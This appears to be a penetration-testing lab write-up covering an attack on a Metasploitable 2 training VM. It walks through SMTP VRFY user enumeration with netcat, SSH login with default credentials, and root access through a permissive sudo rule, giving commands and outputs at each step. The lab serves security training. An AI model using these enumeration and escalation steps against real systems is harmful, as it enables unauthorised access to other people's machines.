





# Metasploitable Lab 10 — SMTP User Enumeration, SSH Access, and Privilege Escalation via Sudo Misconfiguration

## Objective

The objective of this lab was to identify valid system users through SMTP enumeration, leverage this information to gain authenticated access via SSH, and escalate privileges to root through a misconfigured sudo policy.

This lab demonstrates a realistic attack chain that relies on information gathering and credential-based access rather than direct exploitation.

---

## Lab Environment

| Component | Description |
|-----------|-------------|
| Host Machine | MacBook Pro (Intel, 16GB RAM) |
| Virtualization | VirtualBox |
| Attacker Machine | Kali Linux |
| Target Machine | Metasploitable 2 |
| Network | VirtualBox Host-only Network |
| Network Range | 192.168.56.0/24 |

### Lab Network Topology

Internet

|

Kali Linux (eth0 - NAT)

|

Kali Linux (eth1 - Host-only)

|

192.168.56.0/24 Lab Network

|

Metasploitable 2

---

## Tools Used

| Tool | Purpose |
|------|--------|
| Nmap | Service enumeration |
| Netcat (nc) | Manual SMTP interaction |
| SSH | Remote authenticated access |
| Linux commands | Local enumeration and privilege escalation |

---

# Step 1 — Service Identification

From enumeration, the following service was identified:

25/tcp open smtp Postfix smtpd  

---

## Analysis

- SMTP (Simple Mail Transfer Protocol) is used for sending email  
- Often allows interaction without authentication  
- Can be abused for information gathering such as user enumeration  
- High-value target for discovering valid usernames  

---

# Step 2 — SMTP Interaction

## Command Used

nc 192.168.56.3 25 

---

## Result

220 metasploitable.localdomain ESMTP Postfix (Ubuntu)  

---

## Analysis

- Successful connection to SMTP service  
- Server responds with banner information  
- Indicates service is active and accepting commands  

---

# Step 3 — User Enumeration

## Commands Used

VRFY root  
VRFY msfadmin  

---

## Result

252 2.0.0 root  
252 2.0.0 msfadmin  

---

## Analysis

- SMTP VRFY command used to verify user existence  
- Response indicates valid system users  
- Usernames successfully enumerated without authentication  
- Provides targets for credential-based attacks  

---

# Step 4 — SSH Access Attempt

## Initial Command

ssh msfadmin@192.168.56.3  

---

## Issue Encountered

Connection failed due to unsupported legacy key algorithms:

no matching host key type found  

---

## Resolution

ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.56.3  

---

## Authentication

Password used:

msfadmin  

---

## Result

Login successful:

msfadmin@metasploitable:~$  

---

## Analysis

- SSH access obtained using known/default credentials  
- Required enabling legacy cryptographic algorithms  
- Demonstrates risks associated with outdated systems  
- Stable and interactive shell achieved  

---

# Step 5 — Access Verification

## Commands Used

whoami  
id  
pwd  

---

## Output

whoami → msfadmin  
id → uid=1000(msfadmin)  
pwd → /home/msfadmin  

---

## Analysis

- Standard user access confirmed  
- No elevated privileges initially available  

---

# Step 6 — Sudo Privilege Check

## Command Used

sudo -l  

---

## Result

User msfadmin may run the following commands on this host:  
(ALL) ALL  

---

## Analysis

- User allowed to execute any command as root  
- Critical misconfiguration  
- Provides direct privilege escalation path  

---

# Step 7 — Privilege Escalation

## Command Used

sudo su  

---

## Verification

whoami  

---

## Output

root  

---

## Analysis

- Privilege escalation successful  
- Full system compromise achieved  
- No exploitation required, only misconfiguration abuse  

---

# Security Concepts Learned

This lab demonstrated several critical concepts:

- **SMTP Enumeration** — Identifying valid users without authentication  
- **User Enumeration Attacks** — Extracting system information through protocol misuse  
- **Credential-Based Access** — Using known or weak credentials for login  
- **SSH Access** — Gaining stable remote system control  
- **Legacy System Weaknesses** — Use of outdated cryptographic algorithms  
- **Local Enumeration** — Identifying privilege escalation opportunities  
- **Sudo Misconfiguration** — Critical access control vulnerability  
- **Privilege Escalation** — Transition from user to root access  

---

# Lessons Learned

- Information disclosure can be as dangerous as direct vulnerabilities  
- User enumeration significantly increases attack success rates  
- Default or weak credentials remain a major security risk  
- Legacy systems introduce compatibility and security issues  
- Authentication-based access can be more valuable than exploitation  
- Misconfigured sudo permissions can lead to immediate full compromise  
- Attack chains often rely on combining multiple small weaknesses  
- Real-world attacks frequently avoid noisy exploitation techniques  

---

# Final Outcome

- SMTP service identified and interacted with  
- Valid usernames successfully enumerated  
- SSH access obtained using credentials  
- Local system enumeration performed  
- Sudo misconfiguration identified  
- Privilege escalation achieved  
- Root access obtained  